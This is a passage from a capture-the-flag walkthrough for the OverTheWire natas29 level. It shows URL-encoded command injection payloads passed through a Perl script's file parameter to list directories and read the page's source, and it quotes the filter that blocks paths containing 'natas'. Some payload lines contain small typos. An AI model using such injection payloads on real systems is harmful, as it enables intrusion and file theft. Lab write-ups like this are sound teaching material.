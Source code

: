 ```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnatas%5Fwebpass%3B
```

Well, something's not good. We got a strange output:  
```text
meeeeeep!
```

Let's try another directory, then:  

```bash
|ls ../../../../etc/X11/;
```
The url encoded looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2FX11%2F%3B
```
```text
Xsession.d xkb
```
Looks like this one works. Maybe they locked us out from that directory? Let's try natas_webpass then
```bash
|ls ../../../../etc/natas_webpass/;
```
The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnatas_webpass%2F%3B
```
Again:  
```text
meeeeeep!
```

Looks like they don't want us to go into a directory, when the name contains 'natas'. Let's find out what's happening here:
```bash
| cat index.pl;
```
The encoded url looks like this: 
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7C%20cat%20index%2Epl%3B
```

You receive a bit weird output, since the page tries to display the same page as displayed already, but the important part is the following in the code:  

```perl
f($f=~/natas/){ print "meeeeeep!"; }
```

We do not need to be az expert in perl, to understand what's happening here:  If the path contains '/natas/' print the text that we've seen earlier.
